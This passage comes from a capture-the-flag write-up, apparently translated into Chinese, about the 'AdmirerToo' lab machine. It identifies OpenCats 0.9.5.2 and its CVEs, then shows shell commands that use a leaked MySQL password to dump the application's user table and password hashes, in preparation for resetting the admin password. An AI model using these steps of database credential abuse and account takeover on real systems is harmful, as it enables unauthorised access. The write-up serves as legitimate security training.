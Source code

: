 现在，在 Kali 上，我们可以浏览到端口 1234，并将通过 SSH 隧道转发到机器上的端口 8080:

![](img/30d928fd440a36dea80afb0a0cb4d3a5.png)

OpenCats 登录页面

# OpenCats 漏洞

登录页面显示版本是 0.9.5.2，搜索发现两个 CVE。[这个](https://www.opencve.io/cve/CVE-2021-25294)是反序列化漏洞利用，[这个](https://www.opencve.io/cve/CVE-2021-25295)是 XXS 问题。两者都指向这里的[技术走位。](https://snoopysecurity.github.io/web-application-security/2021/01/16/09_opencats_php_object_injection.html)

为了能够利用这些漏洞，我们需要有效的凭证来进入 OpenCATS 仪表板。早些时候我从 OpenCATS 使用的 MySQL 数据库中找到了用户和哈希，但我无法破解它们。相反，对于数据库的管理员访问权限，我们可以为管理员帐户设置一个新密码。

为我的密码创建一个 md5 散列，它是 pencer:

```
jennifer@admirertoo:~$ echo -n pencer | md5sum
b8ea4ab13b0e0864760dbfb9427f31fc  -
```

在数据库中找到管理员帐户的 user_id:

```
jennifer@admirertoo:~$ mysql -u cats -padm1r3r0fc4ts -D cats_dev -e 'select user_id,user_name,password from user;'
+---------+----------------+----------------------------------+
| user_id | user_name      | password                         |
+---------+----------------+----------------------------------+
|       1 | admin          | dfa2a420a4e48de6fe481c90e295fe97 |
|    1250 | cats@rootadmin | cantlogin                        |
|    1251 | jennifer       | f59f297aa82171cc860d76c390ce7f3e |
+---------+----------------+----------------------------------+
```
